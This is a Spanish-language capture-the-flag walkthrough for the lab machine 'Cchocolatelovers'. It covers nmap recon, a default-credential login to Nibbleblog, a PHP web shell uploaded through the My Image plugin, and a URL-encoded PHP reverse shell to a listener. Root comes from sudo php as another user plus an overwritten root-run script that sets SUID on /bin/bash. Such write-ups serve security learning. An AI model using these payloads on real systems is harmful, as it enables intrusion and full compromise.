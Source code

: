 ```yaml
---
Maquina: Cchocolatelovers
SO: Linux
Explotación: Análisis de web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - web
  - nibbleblog
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241029181534.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241029181556.png]]

Como se puede apreciar es la página por defecto de apache. Vamos a intentar ver si hay alguna web adicional.

Si investigamos el código fuente podemos observar que tienen un nibbleblog instalado.

![[Pasted image 20241029181644.png]]

Y si nos adentramos podemos observar el panel principal de Nibbleblog

![[Pasted image 20241029181724.png]]

Podemos intentar iniciar sesión en el panel. Pero no nos sabemos las credenciales... Vamos a probar con las tipicas de admin:admin ->

![[Pasted image 20241029181825.png]]

Parece que estamos dentro...

![[Pasted image 20241029181846.png]]

Vamos a ver si podemos instalar algún plugin que tenga vulnerabilidades...

![[Pasted image 20241029181922.png]]

Parece que podemos instalar el plugin de myimage... sería una pena poner un código malicioso en vez de una imágen, se me ocurre un código como este ->

```php
<?php
if (isset($_GET['cmd'])) {
    $output = shell_exec($_GET['cmd']);
    echo "<pre>$output</pre>";
} else {
    echo "No command provided.";
}
```

Que nos permita ver si ejecutamos algún comando, y vaya parece que lo ha pillado bien.

![[Pasted image 20241029182135.png]]

Ahora podríamos intentar pasar comandos por url tal que así ->

![[Pasted image 20241029182205.png]]

Y si intentamos pasar una reverse shell?

Para ello nos ponemos a la escucha:

```bash
nc -lvnp 4444
```

Y por otro lado le pasamos a la URL el comando códificado -> php%20-r%20%27%24sock%3Dfsockopen%28%22172.17.0.1%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

Y listo, ya tenemos acceso a la bash de www-data

![[Pasted image 20241029182416.png]]

Nos queda hacer el proceso para upgradear la tty.

![[Pasted image 20241029184404.png]]

Listo, ahora vamos a pasar a ver nuestros permisos con sudo -l

![[Pasted image 20241029184446.png]]

Parece que podemos utilizar php como usuario chocolate, asi que vamos a pasar a ese usuario.

```bash
CMD="/bin/sh"
sudo -u chocolate php -r "posix_setuid(0); system('$CMD');"
```

![[Pasted image 20241029184622.png]]

Si ejecutamos el comando que nos permite ver los procesos en ejecución como root podemos observar algo interesante -> ps aux | grep root

![[Pasted image 20241029185718.png]]

Resulta que está ejecutando un proceso curioso -> sudo -u chocolate php -r posix_setuid(0); system('/bin/sh');

Si nos fijamos en el /opt/script.php somos propiertarios del archivo.

![[Pasted image 20241029185852.png]]

Vamos a intentar modificarlo para meterle una línea de código maliciosa

```bash
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Tras esperar un poco asignamos el bit de superusuario al /bin/bash

![[Pasted image 20241029190231.png]]

Con lo que ya podemos ejecutar un bash como root sin necesidad de passwd

![[Pasted image 20241029190301.png]]

